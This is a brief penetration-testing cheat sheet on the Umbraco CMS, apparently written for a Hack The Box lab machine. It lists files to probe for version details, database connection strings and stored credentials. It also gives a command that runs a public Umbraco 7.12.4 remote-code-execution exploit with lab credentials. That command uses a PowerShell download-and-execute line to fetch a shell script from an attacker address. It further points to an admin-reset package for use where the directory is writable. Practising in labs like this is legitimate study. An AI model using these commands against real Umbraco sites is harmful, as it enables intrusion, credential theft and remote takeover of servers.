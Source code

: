 # umbraco

## Interesting Paths

```bash
# login
/umbraco/#/login

# Check for umbracoConfigurationStatus (version)
# Check for <connectionStrings>
/Web.config

# use strings to check for creds
/App_Data/Umbraco.sdf
```

## Umbraco Version v7.12.4

```
https://github.com/noraj/Umbraco-RCE
$ python exploit.py -u 'admin@htb.local' -p 'baconandcheese' -i 'http://10.10.10.180' -c 'powershell' -a "IEX(New-Object Net.WebClient).downloadString('http://10.10.16.161/shell.ps1')"
```

## UmbracoAdminReset.dll (if Write-access on dir)

```
https://our.umbraco.com/packages/developer-tools/umbraco-admin-reset/
```
